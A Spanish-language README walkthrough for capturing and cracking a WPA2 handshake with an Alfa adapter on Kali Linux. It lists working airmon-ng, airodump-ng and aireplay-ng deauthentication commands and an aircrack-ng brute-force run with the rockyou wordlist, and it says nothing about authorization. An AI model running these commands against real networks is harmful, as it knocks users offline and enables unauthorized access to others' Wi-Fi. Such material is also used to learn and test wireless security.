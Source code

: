 # Alfa AWUS036AC
    
   Cracking WPA2


### WiFi Passwords

  ![](Wifi-Hacking.png)
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.


  ![](Alfa-AWUS036AC.png)



## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt


# How To

Listando versión del sistema

![](Imagen1.png)

Listando interfaces

![](Imagen2.png)

Matando procesos para evitar conflictos y activamos el modo monitor

![](Imagen3.png)

Ponemos a capturar las redes disponibles

![](Imagen4.png)

Una vez elegido nuestro objetivo empezamos a esnifar paquetes

![](Imagen5.png)
![](Imagen6.png)

A la espera de que se conecte un cliente para deautenticarlo y capturar el handshake

![](Imagen7.png)

Empezamos el ataque deauth para forzar el handshake

![](Imagen8.png)

Se produce el handshake….

![](Imagen9.png)

Comprobamos que efectivamente nos da los datos de la clave WPA

![](Imagen10.png)

Paramos la red wlan0 para deshabilitar el modo monitor

![](Imagen11.png)

Comenzamos el crackeo de la clave WPA de nuestra captura de wireshark usando el diccionario rockyou.txt

![](Imagen12.png)

Y como podemos ver nuestro ataque ha tenido éxito, la contraseña se encontraba en la posición 331 de la lista

![](Imagen13.png)


